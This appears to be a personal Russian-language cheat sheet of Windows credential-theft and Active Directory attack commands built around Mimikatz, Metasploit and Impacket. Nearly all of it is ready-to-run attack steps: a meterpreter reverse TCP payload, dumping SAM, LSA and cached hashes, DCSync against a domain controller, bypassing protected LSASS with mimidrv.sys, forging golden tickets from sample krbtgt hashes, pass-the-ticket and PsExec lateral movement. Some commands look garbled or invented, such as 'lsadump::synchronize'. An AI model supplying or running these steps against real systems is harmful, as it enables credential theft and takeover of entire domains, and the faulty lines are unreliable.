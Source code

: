 # mimi

МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

load kiwi
kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 

Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system

.\mimikatz.exe

lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- token::elevate - повышение привелегий
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- lsadump::lsa /patch Сбросьте эти хэши!!
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.
-  lsadump::cache - mscash2 последних 10 пользователей из систем и секьюрити
- lsadump::dcsync /all /csv - дампим ntds.dit с контроллера
Подробнее: https://www.securitylab.ru/analytics/517178.php

- lsadump::secrets  - ntlm аккаунта машины

    --- Если Защищенный LSASS
      !+     -- загружаем mimidrv.sys   --- и тогда LSAS открыт
  
Для получения данных из ntds.dit, аналогично команде lsadump::sam в инструменте Mimikatz, можно использовать следующие команды:

1. Загрузите ntds.dit в память с помощью команды "lsadump::synchronize". Например:
```
mimikatz # lsadump::synchronize /system:C:\Windows\system32\config\system /ntds:C:\Windows\NTDS\ntds.dit
```

2. Используйте команду "lsadump::dcsync" для извлечения данных из базы данных ntds.dit. Например:
```
mimikatz # lsadump::dcsync /user:Administrator
```
где "Administrator" - это имя пользователя, данные которого вы хотите получить.


Если LSASS в виртуальном контейнере

privilege::debug
misc::memssp

и получаем после перелогина

c:\windows\system32\mimilsa.log

# Golden ticket  - Dump SID and KRBTGT hash (on DC) от АДМИНИСТРАТОРА

PS C:\pentst> .\mimikatz.exe

mimikatz # privilege::debug

mimikatz # token::elevate (DONT NEED THIS)

mimikatz # lsadump::lsa /patch (lsadump::lsa /inject /name:krbtgt) ---нужен sid и хеш krbtgt

# Create golden ticket (write to file in this case)

# Golden ticket impacket

python lookupsid.py ignite/Administrator:Ignite@987@192.168.1.105   (Получение SID домена)

python secretsdump.py administrator:Ignite@987@192.168.1.105 -выходной файл krb -user-status (Получение хеша krbtg)

impacket-ticketer -nthash 08f5bf2e292d77d8e460d3926a0d90de -domain-sid S-1-5-21-719111203-942671344-1831409528 -domain domain.dom anyuser   (В текущей директории создан билет anyuser.ccache. Экспортируем его)

export KRB5CCNAME=anyuser.ccache

python3 psexec.py -k -no-pass [домен]/[пользователь]@[имя хоста]    (подключение с псезек)



https://xakep.ru/2020/04/15/windows-ad-persistence/


PS C:\Tools> .\mimikatz.exe
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

(kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500)

# Super golden ticket
kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

# Inject ticket to memory
C:\Tools> mimikatz.exe
mimikatz # kerberos::ptt ticket.kirbi

# PsExec to DC
PsExec64.exe \\dc01 cmd.exe

# Или запуск cmd для доступа к другим машинам
mimikatz # misc::cmd
